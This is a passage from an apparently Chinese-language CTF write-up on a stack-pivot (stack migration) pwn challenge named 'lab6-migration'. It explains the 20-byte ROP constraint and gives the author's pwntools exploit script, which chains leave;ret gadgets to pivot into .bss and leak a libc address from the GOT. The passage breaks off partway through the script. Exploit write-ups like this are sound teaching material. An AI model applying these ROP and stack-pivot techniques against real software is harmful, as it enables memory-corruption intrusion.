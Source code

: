 ```python
io.sendlineafter(" :", payload)

io.interactive()
io.close()
```

### lab6-migration

栈迁移的问题，可以看出这个题目比起暴力的栈溢出做了两点限制：

- 每次溢出只有 0x40-0x28-0x4=**20** 个字节的长度可以构造 ropchain

- 通过

  ```C
    if ( count != 1337 )
      exit(1);
  ```

限制了我们只能利用一次 main 函数的溢出（如果能 leak 出栈地址的话, 可以在栈上构造 rop chain 并控制返回地址 ret 到栈上的 rop chain)

所以我们就只能通过 20 个字节的 ropchain 来进行 rop 了，关于栈迁移（又称为 stack-pivot）可以看这个 [**slide**](https://github.com/M4xW4n9/slides/blob/master/pwn_stack/DEP%20%26%20ROP.pdf%0A)
> [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/others/#stack-pivoting) 上对 stack pivot 也有较为详细的介绍

![stackPivot](https://raw.githubusercontent.com/M4xW4n9/slides/master/pwn_stack/stackPivot.jpg)

我的exp：

```python
lab6 [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from time import sleep
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"] 
def DEBUG():
    raw_input("DEBUG: ")
    gdb.attach(io)

elf = ELF("./migration")
libc = elf.libc

#  bufAddr = elf.bss()
bufAddr = 0x0804a000
readPlt = elf.plt["read"]
readGot = elf.got["read"]
putsPlt = elf.plt["puts"]
p1ret = 0x0804836d
p3ret = 0x08048569
leaveRet = 0x08048504


io = process("./migration")
#  DEBUG()
payload = flat([cyclic(0x28), bufAddr + 0x100, readPlt, leaveRet, 0, bufAddr + 0x100, 0x100])
io.sendafter(" :\n", payload)
sleep(0.1)

payload = flat([bufAddr + 0x600, putsPlt, p1ret, readGot, readPlt, leaveRet, 0, bufAddr + 0x600, 0x100])
io.send(payload)
sleep(0.1)
```